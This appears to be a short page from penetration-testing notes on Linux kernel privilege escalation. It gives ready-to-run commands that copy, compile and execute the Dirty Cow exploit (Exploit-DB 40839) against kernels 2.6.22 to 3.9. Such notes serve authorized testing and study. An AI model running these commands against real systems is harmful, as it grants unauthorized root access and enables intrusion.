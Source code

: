 # Linux System

## Kernel

A computer program that controls everything in the system. It facilitates interactions between hardware and software components, essentially a translator.

### Dirty Cow Linux Kernel 2.6.22 < 3.9

Exploit-DB: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

Download and compile:

```
cp /usr/share/exploitdb/exploits/linux/local/40839.c . && gcc -pthread 40839.c -o cow -lcrypt
```

Execute:

```
./cow
```

![](<../../../.gitbook/assets/image (2).png>)
